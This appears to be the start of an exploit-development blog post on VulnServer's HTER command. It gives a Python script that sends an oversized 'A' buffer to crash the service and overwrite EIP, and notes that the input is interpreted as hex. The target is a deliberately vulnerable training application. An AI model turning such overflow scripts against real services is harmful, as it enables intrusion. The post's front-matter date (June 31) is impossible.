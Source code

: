 ```yaml
---
layout: post
title:  "[VulnServer] Exploiting HTER Command using Hex Characters Only"
date:   2018-06-31
categories: [exploitdev, osceprep]
---
```


I used the following skeleton for the exploitation of the `HTER` command.
```python
#!/usr/bin/python

import os
import sys
import socket

host = "192.168.1.129"
port = 9999

buffer = "A"*3000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print "[*] Sending exploit..."
s.send("HTER 0" + buffer)
print s.recv(1024)
s.close()
```

Sending 3000 bytes of A”s caused a crash to the application. However, **EIP** was overwritten with `AAAAAAAA` instead of `41414141`. I’ve sent different strings as buffers to further observed the behavior of the application. Based on it, I observed that the buffer was somehow being converted into hex bytes as opposed to ASCII. 
![Crash](/static/img/07/01.png)

